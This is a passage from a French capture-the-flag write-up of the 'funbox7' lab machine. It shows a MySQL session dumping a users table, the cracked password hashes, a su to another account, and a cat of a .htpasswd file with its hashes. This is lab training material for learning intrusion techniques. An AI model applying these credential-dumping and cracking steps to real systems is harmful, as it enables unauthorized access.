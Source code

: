 ```console
| information_schema |
| db1                |
| mysql              |
| performance_schema |
| phpmyadmin         |
| sys                |
+--------------------+
6 rows in set (0.01 sec)

mysql> use db1;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+---------------+
| Tables_in_db1 |
+---------------+
| users         |
+---------------+
1 row in set (0.00 sec)

mysql> select * from users;
+----+-------+----------------------------------+
| id | name  | passwd                           |
+----+-------+----------------------------------+
| 1  | harry | e10adc3949ba59abbe56e057f20f883e |
+----+-------+----------------------------------+
1 row in set (0.00 sec)
```

Le mot de passe correspondant est `123456`. On ne l'a pas trouvé avec `ncrack` car seul `goat` est autorisé sur SSH (d'où son appartenance au groupe).

Une fois connecté sur le compte `harry` via `su` je peux lire le contenu du `.htpasswd` :

```console
harry@funbox7:~$ cat /var/www/html/secret/.htpasswd 
sally:$1$CLEC`tcN$7v.YWiWZWrpQDzB5YDb5i1
goat:aHlkcmEubWUhIGl0IHdvcmtzICEhISE=
```

Le hash de `sally` se casse en  `iubire`. Toutefois `sally` n'ayant aucun privilège particulier, c'est une impasse.
